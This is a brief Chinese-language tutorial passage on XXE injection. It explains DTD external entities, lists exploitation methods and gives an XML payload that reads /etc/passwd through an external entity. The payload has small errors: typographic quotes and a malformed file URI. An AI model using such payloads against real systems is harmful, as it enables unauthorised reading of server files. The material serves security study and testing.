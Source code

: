 # EXP手册-XXE Injecton(XML External Entity Injection)
## 基础知识
XXE(XML External Entity),即是XML外部实体注入攻击.漏洞是在对不安全的外部实体数据进行处理时引发的安全问题。   
关键在DTD的引用。   
```
\\实例代码
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE message [
<!ELEMENT message (receiver ,sender ,header ,msg)>
<!ELEMENT receiver (#PCDATA)>
<!ELEMENT sender (#PCDATA)>
<!ELEMENT header (#PCDATA)>
<!ELEMENT msg (#PCDATA)>
```
DTD(The document type definition)，即是文档类型定义，可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。   
前提条件：允许外部实体引用。   
入门：  
- [一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)    
- [XML external entity (XXE) injection](https://portswigger.net/web-security/xxe)
![](https://raw.githubusercontent.com/ReAbout/web-exp/master/images/xxe-injection.svg?sanitize=true)
## XXE漏洞利用
按服务端语言有PHP、JAVA、JAVA(Android)一般解析函数都是默认不开启的、Python、libxml。   
漏洞利用方法分：   
- 回显读取文件   
- 不带回显读取文件-OOB(Out of Band）    
- 报错回显读取文件-XXE Base Error   
- 远程执行   
### 0x01回显读取文件
读取本地文件payload示例：   
```
<?xml version=”1.0″ encoding=”utf-8″?>

<!DOCTYPE XXE [
<!ELEMENT name ANY >
<!ENTITY XXE SYSTEM "file://etc/passwd" >]>

<root>
  <name>&XXE;</name>
</root>
```
### Reference

[Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)   
